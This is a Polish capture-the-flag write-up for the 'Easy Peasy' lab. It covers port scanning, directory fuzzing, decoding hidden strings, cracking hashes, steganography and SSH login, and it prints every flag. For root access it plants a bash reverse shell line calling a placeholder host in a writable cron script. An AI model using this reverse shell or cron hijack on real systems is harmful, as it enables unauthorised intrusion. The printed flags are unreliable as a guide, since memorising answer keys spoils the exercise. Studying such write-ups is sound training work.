 # Easy Peasy

IP=10.10.158.179

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:41 EDT
Nmap scan report for 10.10.158.179
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.41 seconds
```

Przeprowadzamy bardziej szczegółowy skan:

```
sudo nmap -p 80,6498,65524 -sV -sC 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:43 EDT
Nmap scan report for 10.10.158.179
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Zostały wykryte 3 porty. Wersja nginx to 1.16.1, a na najwyższym porcie działa usługa Apache.

## Skanowanie

### Port 80

Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Jest to domyślna strona nginx. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179/FUZZ -c  -recursion
```

![Ffuf](img/Ffuf.JPG)

Program wykrył dwa katalogi. Przechodzimy do katalogu /hidden/whatever:

![What](img/What.JPG)

Znajdujemy tutaj fotografię. Sprawdzamy źródło strony:

![Base64](img/Base64.JPG)

Widzimy ukryty ciąg znaków zakodowany algorytmem Base64, który dekodujemy przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag1](img/Flag1.JPG)

Odczytujemy pierwszą flagę:

```
flag{f1rs7_fl4g}
```

### Port 65524

Przechodzimy do sprawdzenia portu 65524. Jest to domyślna strona Apache'a:

![Apache](img/Apache.JPG)

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179:65524/FUZZ -c -recursion
```

![Ffuf2](img/Ffuf2.JPG)

W pliku robots.txt w polu User-Agent znajdujemy ciekawy ciąg znaków przypominających hash:

![Robots](img/Robots.JPG)

```
a18672860d0510e5ab6699730763b250
```

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie MD5. Otrzymujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
flag{1m_s3c0nd_fl4g}
```

W źródle domyślnej strony Apache'a znajdujemy trzecią flagę oraz pewną ukrytą notkę:

![Flag3](img/Flag3.JPG)

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

![Hidden](img/Hidden.JPG)

```
ObsJmP173N2X6dOrAgEAL0Vu
```

Dekodujemy ciąg znaków przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Chef](img/Chef.JPG)

```
/n0th1ng3ls3m4tt3r
```

Przechodzimy do ukrytej lokalizacji, która zawiera dwa zdjęcia:

![Photo](img/Photo.JPG)

W źródle strony znowu znajdujemy ciąg znaków przypominających hash:

![Hash](img/Hash.JPG)

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie GOST. Otrzymujemy hasło:

![Pass](img/Pass.JPG)

```
mypasswordforthatjob
```

Pobieramy zdjęcia i za pomocą narzędzia steghide, wydobywamy ukryte informacje przy użyciu zdobytego hasła:

![Steg](img/Steg.JPG)

```
steghide --extract -sf binarycodepixabay.jpg 
```

Korzystając z [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło do serwisu SSH:

![Binary](img/Binary.JPG)

```
iconvertedmypasswordtobinary
```

### Port 6498

Logujemy się do serwisu SSH przy pomocy zdobytych danych:

```
boring:iconvertedmypasswordtobinary
```

W katalogu domowym użytkownika boring znajdujemy czwartą flagę, którą dekoduejmy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag4](img/Flag4.JPG)

```
synt{a0jvgf33zfa0ez4y}
```

![ROT13](img/ROT13.JPG)

```
flag{n0wits33msn0rm4l}
```

## Zwiększenie poziomu uprawnień

Przechodzimy do katalogu /var/www, w którym znajduje się plik .mysecretcronjob.sh:

![Cron](img/Cron.JPG)

Plik został stworzony przez użytkownika boring, zatem możemy go edytować przy pomocy komendy nano, ustawiając reverse shell'a:

![Nano](img/Nano.JPG)

```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Ustawiamy nasłuchiwanie na wybranym porcie i po chwili uzyskujemy dostęp do serwera jako użytkownik root:

![Root](img/Root.JPG)

W katalogu domowym użytkownika root znajdujemy piątą flagę:

![Flag5](img/Flag5.JPG)

```
flag{63a9f0ea7bb98050796b649e85481845}
```

Do zobaczenia na kolejnych CTF-ach!
